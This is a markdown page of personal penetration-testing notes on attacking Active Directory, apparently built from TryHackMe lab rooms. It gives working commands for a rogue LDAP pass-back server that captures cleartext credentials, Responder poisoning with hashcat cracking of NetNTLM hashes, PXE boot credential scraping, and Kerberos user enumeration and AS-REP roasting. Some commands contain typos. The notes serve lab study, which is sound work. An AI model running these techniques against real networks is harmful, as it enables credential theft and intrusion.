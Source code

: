 # [Windows] - AD attack

---

## Summary

- [Recover AD credentials](https://github.com/NG3IT/Sec/blob/main/3.2.0%20-%20%5BWindows%5D%20-%20AD%20attack.md#recover-ad-credentials)
- [Breaching AD]

<br>

---

## Recover AD credentials

---

## Breaching AD

[Breaching AD](https://tryhackme.com/room/breachingad)

Some techniques :
- NTML Authenticated services
- LDAP bind credentials
- Authentication relays
- Microsoft Deployment Toolkit
- Configuration files

Two popular methods for gainging access to that first set of AD credentials is **OSINT** and **phishing**

#### OSINT 

- Stack Overflow : sometimes user who asked disclose sensitive information
- GitHub : scripts with credentials hardcoded
- Credentials being disclosed : [Dehashed](https://www.dehashed.com/) / [Haveibeenpwned](https://haveibeenpwned.com/)

#### Phishing


---


### NTLM / NetNTLM

NTML : New Technology LAN Manager is the suite of security protocols used to authenticate users' identity in AD

NetNTLM : Authentication by using a chellenge-response based cheme called NetNTLM

Example of services who use NTLM :
- Internally-hosted mail server that expose an Outlook Web App
- RDP exposed to the internet
- VPN integrated with AD
- Web applications internet facing and make use of NetNTLM

#### Brute-force login attack

Use script or tool like hydra

#### Password spraying

Test multiple username with one password (default password of company for example)

### LDAP Bind Credentials

#### LDAP Pass-back attacks

Common attack against network devices -> plugging in rogue device

```bash
$ service slapd stop
$ $ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

```
# Hosting a rogue LDAP server
$ sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
# If necessary -> reconfigure slapd
$ sudo dpkg-reconfigure -p low slapd
# Downgrade the supported authentication mechanisms
$ echo "#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred" > olcSaslSecProps.ldif
# Patch our LDAP with the ldif file
$ sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
# Verify configuration
$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

# Capture trafic and password 
$ sudo tcpdump -SX -i breachad tcp port 389
``` 

---

### NetNTML with SMB

It is possible to intercept NTLM challenges and crack it to recover password

It is possible to run a man in the middle attack with a rogue device (use Responder to perform man in the middle and poisonning LLMNR as Link-Local Multicast Name Resolution, NBT-NS NetBIOS Name Server and WAPD Wab Proxy Auto-Discovery)

```bash
# Start Responder
$ sudo responder -I <interface>
$ sudo responder -I 
# Wait capture NTLMv2-SSP
# Copy the NTLMv2-SSP Hash on file
$ echo "<NTLMv2-SSP content>" > <hashfile>
# Use hashcat 
hashcat -m 5600 <hashfile> <passwordfile> --force
```

---

### Microsoft Deloyment Toolkit

It is possible to inject a privilege escalation vector to gain admin access to the OS one the PXE booted

It is possible to perform password scraping attacks to recover AD cred used during the install

```powershell
1. First we need to find the IP of the MDT server
2. What was the name of the BCD files (PXE boot for multiple arch)
3. Get BCD file
> tftp -i thmmdt.za.tryhackme.com GET "\Tmp\x64{<namefile>}.bcd" conf.bcd
4. Use PS and get the PWE boot image
> powershell -executionpolicy bypass
> Import-Module .\PowerPXE.ps1
> $BCDFile = ".\conf.bcd"
> Get-WimFile -bcdfile $BCDFile
>> Parse the BCD file: .\conf.bcd 
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim 
\Boot\x64\Images\LiteTouchPE_x64.wim
5. Use pxepower to read credentials (at this stage, it is possible to inject local administrator user, exfiltrate cred, etc.)
6. For exfiltrate cred manually -> look on the bootstrap.ini file
7. pxepower method
> 
```

---

This sumary is inspired by the THM room - [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)

Also, see the writeups of the THM room [TryHackMe - Attacktive Directory](https://github.com/NG3IT/Challenge-Writeups/new/main)

---

## Procedure

Enumerate global information :

```bash
$ enum4linux <IP>
```

Enumérate user :

```bash
$ ./kerbrute_linux_amd64 userenum --domain THM-AD --dc 10.10.171.193 /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt 
```

Abusing Kerberos (GetNPUsers.py) :

```bash
$ impacket/examples/GetNPUsers.py <ip>/<user>
```

---

## Usefull tools by ports 

139 -> enum4linux 
445 -> enum4linux

---

## Tools

This section cover this follow tools :

1. Impacket
2. Bloodhound
3. Neo4j

---

## Impacket

Follow this instructions for install impacket :

```bash
$ git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
$ pip3 install -r /opt/impacket/requirements.txt
$ cd /opt/impacket/ && python3 ./setup.py install
```

---

## Bloodhound

Follow this instructions for install Bloodhound :

```bash
$ sudo apt install bloodhound
```

---

## Neo4j

Foolow this instructions for install Neo4j :

```bash
$ sudo apt install leo4j
```

--- 

## Kerbrute

Installation :

```bash
$ pip3 install kerbrute
```

[Kerbrute help](https://github.com/ropnop/kerbrute)
[Kerbrute help - KaliLinux](https://kalilinuxtutorials.com/kerbrute-a-tool-to-perform-kerberos-pre-auth-bruteforcing/)

Options :

bruteuser – Bruteforce a single user’s password from a wordlist
passwordspray – Test a single password against a list of users
usernenum – Enumerate valid domain usernames via Kerberos

-dc -> specify domain controller
-d -> specifty domain
-t -> defin threads (10 by fedault)
-o -> stdout
-v -> failures logged
